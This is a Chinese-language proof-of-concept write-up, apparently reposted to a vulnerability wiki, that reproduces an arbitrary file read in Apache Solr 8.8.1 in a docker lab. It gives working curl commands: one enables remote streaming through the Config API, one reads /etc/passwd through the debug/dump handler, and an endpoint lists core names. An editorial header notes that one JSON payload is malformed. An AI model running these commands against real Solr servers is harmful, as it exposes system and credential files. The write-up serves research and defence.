







# Apache Solr -- 8-8-1 任意文件读取漏洞 POC 复现（从 1day 熬成了 Nday）

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：有core、Config API可写、debug/dump处理器可访问、进程可读文件；示例8.8.1
- 证据范围：记录无core/配置关闭两个失败条件，表明这不是任意默认实例直接读文件。

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- curl JSON含字面反斜线转义右花括号，标准JSON无效
- 官方拒绝修复无公告证据，应描述信任边界/权限配置而非无条件漏洞
- 更改core配置有持久副作用，需明确恢复；最新/前两天无日期
- 补鉴权角色和读取权限边界

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aZX_EYv5f0l_jM-XQpbHTw)

Apache Solr 在前两天爆出来了个任意文件读取漏洞，而且官方拒绝修复。所以这里就快速复现一下吧，顺便将复现时候遇到的坑也记录一下。  

01

—

环境搭建

  
第一步总是要搭环境的，所以这里为了方便选取了使用 docker。

这里以目前最新的 Apache Solr 8.8.1 为例，

首先拉取镜像，这里自动就会拉取最新的版本：

```shell
docker pull solr
```

启动容器：

```shell
docker run --name solr-8.8.1 -p 8983:8983 -itd solr
```

之后访问本地 8983 端口可以看到相关管理页面



但此时如果直接使用 poc 去尝试是会出现 404 的错误  



这是由于 core 没安装导致，这里可以尝试安装一个 core。



但当直接添加 core 时会看到报错，这里是由于 new_core 目录下缺少配置文件，不过 solr 自带了一些默认配置文件的 sample，就是我们在首页看到的那些。



可以直接将相关的配置文件拷过去使用，首先进入交互模式：

```shell
docker exec -it solr-8.8.1 /bin/bash
```

然后复制过去：

```
cp -r /opt/solr/server/solr/configsets/_default/conf /var/solr/data/new_core/
```

此时再 add core 就可以成功了

02

—

POC 复现‍

根据上述就完成了环境配置，

如果此时直接读文件是无法读取的。



这时需要先开启相关配置

```shell
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true\}\}' http://127.0.0.1:8983/solr/your_core_name/config -H 'Content-type:application/json'
```



开启之后即可读取任意文件

```shell
curl "http://127.0.0.1:8983/solr/your_core_name/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```



 可以看到这里是访问的我们刚才那个 core 的名字，那如何自动去获取到 core 名字呢。  

那这里的 Core name 就可以通过这个接口来查询

```
/solr/admin/cores?indexInfo=false&wt=json
```

在返回的数据中即可看到刚才创建时的 core name  

****本演示仅用于学习和研究，请在实验环境中运行，请勿用于其他任何非法用途，否则后果自负！****

  

**-------- 快上车就完事了** ****--------****

**hijackY**∣来一起共同成长


识别二维码，快上车就完事了

也可 **赞赏** **转发** **在看****↘**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
